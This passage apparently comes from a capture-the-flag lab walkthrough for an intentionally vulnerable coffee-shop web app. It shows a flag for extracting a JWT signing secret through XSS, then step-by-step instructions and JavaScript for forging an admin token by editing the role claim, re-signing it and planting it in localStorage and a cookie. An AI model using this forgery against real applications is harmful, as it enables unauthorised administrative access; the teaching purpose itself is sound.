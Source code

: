 5. **Expected JWT Secret:** The application's JWT signing key will be revealed

#### 🚩 **Flag 5:** `JWT Secret Key extracted`

**Note:** The exact JWT secret depends on your `.env` configuration. Common test values might be `coffee_shop_secret_2025` or similar.

**Learning Points:**
- XSS can be used to make authenticated requests
- API keys/secrets should never be exposed through client-side code
- Proper secret management is critical for security

---

### **Step 6: JWT Privilege Escalation** 👑

**Objective:** Forge an admin JWT token to gain administrative access.

#### Actions:

1. **Get your current JWT token:**
   ```javascript
   localStorage.getItem('jwt_token')
   ```

2. **Copy** the token value

3. **Navigate** to [jwt.io](https://jwt.io)

4. **Paste** your JWT in the "Encoded" section (left side)

5. **Examine** the decoded payload (middle section):
   ```json
   {
     "userId": "668d4ed24f2c5b864ddaa7729",
     "username": "testuser",
     "role": "user",
     "iat": 1759242102,
     "exp": 1759245702
   }
   ```

6. **Modify** the role to admin:
   ```json
   {
     "userId": "668d4ed24f2c5b864ddaa7729",
     "username": "testuser",
     "role": "admin",
     "iat": 1759242102,
     "exp": 1759245702
   }
   ```

7. **Enter the JWT Secret** (from Step 5) in the "Verify Signature" section (right side)

8. **Copy** the new forged JWT from the "Encoded" section

9. **Set the forged token** in your browser:
   ```javascript
   localStorage.setItem('jwt_token', 'YOUR_FORGED_JWT_HERE');
   document.cookie = 'token=YOUR_FORGED_JWT_HERE; path=/; SameSite=Lax';
   ```
